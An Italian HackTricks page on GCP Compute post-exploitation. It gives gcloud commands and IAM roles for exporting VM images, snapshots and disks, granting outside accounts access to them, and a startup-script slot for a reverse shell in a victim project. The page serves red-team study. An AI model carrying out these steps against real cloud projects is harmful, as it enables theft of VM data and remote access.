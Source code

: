 # GCP - Compute Post Exploitation

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}

## Compute

Per maggiori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esportare e Ispezionare Immagini localmente

Questo permetterebbe a un attaccante di **accedere ai dati contenuti all'interno delle immagini già esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine VM in un bucket, quindi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Prima di eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di storage e sicuramente **privilegi su cloudbuild** poiché è il **servizio** che verrà richiesto per eseguire l'esportazione.\
Inoltre, affinché ciò funzioni, il codebuild SA e il compute SA necessitano di permessi privilegiati.\
Il cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` necessita di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` necessita di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esportare e Ispezionare Snapshot e Dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispezionare un'Immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da cui un attaccante **ha creato un'immagine,** è possibile concedere a un account esterno l'accesso all'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e poi crea una nuova VM da esso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non potessi dare accesso al tuo account esterno sull'immagine, potresti avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire alla metadata una reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispezionare uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai **dati memorizzati in un disco o in uno snapshot, potresti trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.**

Oppure potresti **concedere l'accesso a un account esterno** sul disco (se il punto di partenza è uno snapshot, concedi l'accesso sullo snapshot o crea un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collega il disco** a un'istanza:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monta il disco all'interno della VM:

1.  **SSH nella VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifica il Disco**: Una volta all'interno della VM, identifica il nuovo disco elencando i dispositivi del disco. Tipicamente, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formatta e Monta il Disco** (se è un disco nuovo o grezzo):
*   Crea un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monta il disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se **non puoi dare accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disco**.

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repo di github.

</details>
{% endhint %}
